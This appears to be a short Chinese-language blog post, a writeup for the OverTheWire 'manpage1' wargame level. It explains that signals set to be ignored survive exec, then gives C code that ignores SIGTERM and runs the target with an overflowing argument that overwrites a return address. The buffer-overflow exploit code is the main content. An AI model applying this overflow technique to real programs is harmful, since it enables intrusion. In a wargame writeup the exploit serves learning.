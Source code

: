```yaml
---
title: manpage1
author: rk700
layout: post
categories:
  - writeup
tags:
  - OverTheWire
  - exploit
---
```

exec的manual里是这么说的

> Except for SIGCHLD, signals set to be ignored (SIG_IGN) by the calling process image shall be set to be ignored by the new process image.

于是我们先把SIGTERM设为忽略，再调用manpage1 

{% highlight c %}
#include <signal.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

int main (int argc, char *args[]) {
    char arg1[273];
    memset(arg1, 'A', sizeof arg1);
    strncpy(arg1+268, "\xf1\xd8\xff\xff", 5);
    signal(SIGTERM, SIG_IGN);
    //execl("./././././envAddr", "", arg1, NULL);
    execl("/manpage/manpage1", "", arg1, NULL);
}
{% endhighlight %}